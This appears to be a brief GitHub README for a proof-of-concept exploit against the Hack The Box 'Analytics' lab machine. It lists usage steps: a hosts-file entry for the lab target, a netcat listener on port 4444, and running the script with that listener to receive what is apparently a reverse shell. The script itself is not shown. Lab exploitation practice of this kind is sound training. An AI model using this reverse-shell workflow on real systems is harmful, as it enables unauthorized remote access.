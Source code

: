# HTB_Analytics

Usage: python3 HTB_Analytics_poc.py \<listener ip\> \<listener port\>

<p>1.echo "10.10.11.233 data.analytical.htb" >> /etc/hosts</p>
<p>2.nc -nvlp 4444</p>
<p>3.python3 HTB_Analytics_poc.py \<listener ip\> 4444</p>

